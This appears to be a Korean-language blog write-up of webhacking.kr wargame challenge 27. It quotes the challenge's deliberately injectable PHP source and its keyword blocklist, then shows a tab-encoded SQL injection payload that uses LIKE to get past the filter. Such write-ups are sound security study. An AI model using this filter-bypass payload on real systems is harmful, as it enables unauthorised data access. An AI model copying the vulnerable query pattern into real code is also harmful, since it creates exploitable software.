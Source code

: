```yaml
---
title: "Security: webhacking.kr 27-31"
last_modified_at: 2020-07-26T20:20:02-05:00
categories:
  - Security
tags:
  - webhacking.kr
  - 웹해킹
toc: true 
toc_label: "Table of Contents"
toc_icon: "cog"
toc_sticky: true 
author_profile: true 
read_time: false 
---
```

---
### 27
---

27번 문제 역시 SQL Injection이다. 일단 true를 입력해보았다.
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제27/27-1.JPG" alt="">
  <figcaption> </figcaption>
</figure>

guest 라는 문자열이 나타난다 1을 입력하면 guest 계정이 나타나는 모양이다.
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제27/27-2.JPG" alt="">
  <figcaption> </figcaption>
</figure>

그외에 문법에 어긋나면 query error가 나타나고 특정한 단어를 입력하면 no hack이 출력된다.
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제27/27-3.JPG" alt="">
  <figcaption> </figcaption>
</figure>

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제27/27-4.JPG" alt="">
  <figcaption> </figcaption>
</figure>

이것만으로는 힌트가 부족한것 같아서 소스코드를 살펴보았다.
{: .notice}

```
<?php
  include "../../config.php";
  if($_GET['view_source']) view_source();
?><html>
<head>
<title>Challenge 27</title>
</head>
<body>
<h1>SQL INJECTION</h1>
<form method=get action=index.php>
<input type=text name=no><input type=submit>
</form>
<?php
  if($_GET['no']){
  $db = dbconnect();
  if(preg_match("/#|select|\(| |limit|=|0x/i",$_GET['no'])) exit("no hack");
  $r=mysqli_fetch_array(mysqli_query($db,"select id from chall27 where id='guest' and no=({$_GET['no']})")) or die("query error");
  if($r['id']=="guest") echo("guest");
  if($r['id']=="admin") solve(27); // admin's no = 2
}
?>
<br><a href=?view_source=1>view-source</a>
</body>
</html>
```

여기서 주목해야할 부분은 아래 세 줄이다.
{: .notice}
```
if(preg_match("/#|select|\(| |limit|=|0x/i",$_GET['no'])) exit("no hack");

$r=mysqli_fetch_array(mysqli_query($db,"select id from chall27 where id='guest' and no=({$_GET['no']})"))

if($r['id']=="admin") solve(27); // admin's no = 2
```

정규 표현식으로 #, select, (, " ", limit, =, 0x 는 사용하지 못하도록 필터링 하고 있다. 
이 표현들을 피하여 아래처럼 입력하여 2가 들어가도록 하면 된다. (admin's no = 2 이므로) 
{: .notice}

```
select id from chall27 where id='guest' and no=(0) or no like 2--
```

여기서 no = 2를 입력하고 싶었지만 =는 필터링이 되기 때문에 대신해서 like를 사용했고
 0) or no like 2--을 입력하기 위해 url encode 방식에 따라서 공백문자를 %09로 치환하였다.
{: .notice}

```
0)%09or%09no%09like%092%09--%09
```

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제27/27-5.JPG" alt="">
  <figcaption> </figcaption>
</figure>

그리고 나서 그대로 입력창에 입력하니 query error 란다. 입력창에 입력하게 되면 한번더 url endcode가 되기때문에 의도한 값과는 다른 값이 들어가게된다.
따라서 직접 주소창에 ?no= 뒤에 넣어줘야한다.
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제27/27-6.JPG" alt="">
  <figcaption> </figcaption>
</figure>







